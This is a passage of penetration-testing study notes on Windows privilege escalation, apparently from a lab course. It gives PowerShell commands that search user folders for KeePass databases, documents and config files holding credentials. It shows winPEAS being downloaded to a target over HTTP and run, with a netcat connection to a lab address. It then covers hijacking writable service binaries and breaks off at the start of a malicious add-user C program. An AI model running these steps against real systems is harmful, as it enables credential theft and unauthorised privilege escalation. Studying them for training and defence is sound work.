 - User's note  
  - KeePass DB: .kdbx  
    `Get-ChildItem -Path C:\Users\<user>\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`
  - Text files: *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx  
    `Get-ChildItem -Path C:\Users\<user>\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue`
  - XAMP: .ini  
    `Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`
- Shell history  
  `(Get-PSReadlineOption).HistorySavePath`  
- 🖥️ **Automated Windows Enumeration - winPEASx64.exe**  
  - Download winPEAS to target and execute  
    ```
    #kali
    kali@kali:~$ cp /usr/share/peass/winpeas/winPEASx64.exe .
    kali@kali:~$ python3 -m http.server 80
    kali@kali:~$ nc 192.168.50.220 4444
    
    #target
    C:\Users\dave> powershell
    PS C:\Users\dave> iwr -uri http://192.168.48.3/winPEASx64.exe -Outfile winPEAS.exe
    C:\Users\dave> .\winPEASx64.exe | Out-File winPEAS-results.txt
    ```
 - Review
   - Basic System Information
   - PS default transcripts history
   - Users Information
   - Looking for possible password files in users homes
   - Current Token privileges
   - Installed Applications
   - Unquoted and Space detected
   - No quotes and Space detected
   - Looking for possible password files in users homes
   - Searching executable files in non-default folders with write
- Leveraging Windows Services
  - Service Binary
    - check for allowing full Read and Write access of program  
      `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
    - check for non standard "C:\Windows\System32" path  
      `C:\xampp\apache\bin\httpd.exe`  
      `C:\xampp\mysql\bin\mysqld.exe`  
    - check permissions for the running program
      `icacls "C:\xampp\apache\bin\httpd.exe"` #BUILTIN\Users:(F)
    - create a malicious program to add user
      ```
      #include <stdlib.h>
      
      int main ()
      {
        int i;
        